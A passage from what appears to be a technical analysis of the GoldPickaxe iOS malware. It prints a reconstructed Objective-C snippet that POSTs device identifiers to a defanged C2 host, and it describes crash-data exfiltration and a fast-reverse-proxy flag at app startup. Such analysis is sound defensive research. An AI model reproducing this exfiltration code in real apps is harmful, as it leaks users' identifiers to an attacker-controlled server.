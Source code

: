 ~~~Objective-C
AFHTTPSessionManager *manager = [AFHTTPSessionManager manager];

[manager setResponseSerializer:[AFHTTPResponseSerializer serializer]];

NSString *urlString = [NSString stringWithFormat:@"%@%@", @"http://hzc5[.]xyz", @"/api/apple/xxxx"];

NSString *keys[] = {@"adid", ... /* keys */};

NSString *objects[] = {[CommonUtils getAdid], ..., /* values */};

NSDictionary *parameters = [NSDictionary dictionaryWithObjects:objects
                                             forKeys:keys
                                             count: /* number of parameters */
                           ];

[manager POST:urlString
      parameters:parameters
      headers:nil
      constructingBodyWithBlock: /* can be set or not */ 
      progress:nil
      success:nil /* can be set or not */
      failure:nil /* can be set or not */
];
~~~

## Application Startup 

When the application starts, the **-[AppDelegate application:didFinishLaunchingWithOptions:]** method is executed.
If there were crashes, the malware gets the crash detail (**getCrash**), saves the crash detail in the **standUserDefaults** and sends it to the C2 (the two **saveCrash** method), after that, the malware checks if the application should be terminated (**isDestory**). If that's the case the application exits (**_exit**), otherwise it sets the **isStartFrp** flag variable to **0** (this variable is used to determine if the **fast reverse proxy** is executed).

{{< image src="img/2024-04-19-goldpickaxe-technical-analysis-ipa-c2/img12.png" caption="Figure 12 - GetCrash and isDestory Methods" wrapper="text-center">}} 

### getCrash

The **+[UserDefaultsManager getCrash:]** method is responsible to get the crashes details, we are not going to show its details.


### saveCrash 

The **+[HttpUtils saveCrash:]** method executes a **HTTP** Post request to "**/api/apple/savecrash**", it sends two parameters:
* **adid** with the **IDFA** value
* **content** with the crash details
If the request succeeds the malware executes a function that print a log message, otherwise the malware executes another function that do a **RET** instruction.
